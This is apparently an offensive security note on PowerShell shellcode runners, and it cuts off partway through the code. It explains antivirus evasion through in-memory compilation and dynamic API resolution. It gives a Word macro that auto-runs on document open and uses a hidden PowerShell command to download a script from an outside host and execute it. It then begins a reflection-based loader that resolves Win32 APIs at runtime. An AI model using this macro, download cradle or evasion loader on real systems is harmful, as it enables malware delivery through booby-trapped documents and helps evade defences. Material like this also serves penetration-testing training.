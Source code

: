   +  🧾 What it does:
      Defines required Win32 APIs using C# via Add-Type, then:

      + Allocates memory
      
      + Copies shellcode
      
      + Executes it with CreateThread
      
      + Waits for completion with WaitForSingleObject

  +  AV Evasion:
      Because the script compiles C# code in memory and never drops anything to disk, it avoids signature-based detection. Also avoids suspicious function names by resolving them dynamically.
---

### Reflection Shellcode Runner in PowerShell

1. Macro Loader 
  ```visual-basic
    Sub MyMacro()
        Dim str As String
        str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
        Shell str, vbHide
    End Sub
    
    Sub Document_Open()
        MyMacro
    End Sub
    
    Sub AutoOpen()
        MyMacro
    End Sub  
  ```
2. PowerShell code 
  ```powershell
    # ----------------------------
    # 1. Dynamically Resolve Win32 APIs
    # ----------------------------
    function LookupFunc {
        Param ($moduleName, $functionName)
    
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
            Where-Object {
                $_.GlobalAssemblyCache -and
                $_.Location.Split('\\')[-1] -eq 'System.dll'
            }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    
        $getProcAddress = $assem.GetMethods() | Where-Object { $_.Name -eq 'GetProcAddress' }
        $getModuleHandle = $assem.GetMethod('GetModuleHandle')
    
        return $getProcAddress[0].Invoke($null, @($getModuleHandle.Invoke($null, @($moduleName)), $functionName))
    }
    
    # ----------------------------
    # 2. Create a Delegate Type at Runtime
    # ----------------------------
    function getDelegateType {
        Param (
            [Type[]] $funcSig,
            [Type] $returnType = [Void]
        )
    
        $assemblyName = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
  ```
